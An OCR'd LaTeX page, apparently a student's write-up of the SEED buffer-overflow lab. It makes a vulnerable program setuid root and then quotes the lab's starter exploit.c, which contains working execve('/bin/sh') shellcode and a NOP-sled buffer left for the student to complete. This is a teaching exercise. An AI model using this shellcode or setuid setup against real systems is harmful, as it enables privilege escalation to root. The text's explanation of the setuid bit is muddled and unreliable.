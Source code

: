 \documentclass[14pt]{extarticle}
\begin{document}
Next I need to set the owner of the file to be root, so I can later set the file to execute as the regular user\cite{seed-bof}. This command must be ran as root inorder to have the permissions to change the owner of the file: 
\begin{lstlisting}[language=bash]
    sudo chown root stack
\end{lstlisting}

Now I need to set the permissions of the file to allow anyone in the group or other to read or execute the file (which is needed so I can execute it as the user seed). The 4 at the start of the permissions will tell the file to execute as the regular user, which in this case will be root (which we set in the last command). So, when executing the file, it will be ran as the root user, but I don't need to be root to run the file. 
\begin{lstlisting}[language=bash]
    sudo chmod 4755 stack
\end{lstlisting} \cite{seed-bof}\\
Now I have a vulnerable program that I can execute, and when executed the file will run with the permissions of the root user.

\section{Task 2}
Now to exploit the vulnerability.\\
To create the "badfile" I need to fill the file with the hex value of the exploit code, the address of the exploit code(positioned to overwrite the return address of the bof function), and a nop sled. This could possibly be done with a normal text editor, but can be done much easier with a simple c program. I am given the start to a C program which will generate the exploit file.
\begin{lstlisting}[language=bash]
 /* exploit.c */
/* A program that creates a file containing code for launching shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[] =
"\x31\xc0" /* Line 1: xorl %eax,%eax */
"\x50" /*Line 2: pushl %eax*/
"\x68""//sh" /*Line 3: pushl $0x68732f2f*/
"\x68""/bin" /*Line 4: pushl $0x6e69622f*/
"\x89\xe3" /*Line 5: movl %esp,%ebx*/
"\x50" /*Line 6: pushl %eax*/
"\x53" /*Line 7: pushl %ebx*/
"\x89\xe1" /*Line 8: movl %esp,%ecx*/
"\x99" /*Line 9: cdq*/
"\xb0\x0b" /*Line 10: movb $0x0b,%al*/
"\xcd\x80" /*Line 11: int $0x80*/
;
void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;
    /* Initialize buffer with 0x90 (NOP instruction)*/
    memset(&buffer, 0x90, 517);
    /* You need to fill the buffer with appropriate contents here*/
    /*... Put your code here ...*/
    /*Save the contents to the file "badfile"*/
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}

\end{lstlisting}\cite{seed-bof}\\
\end{document}

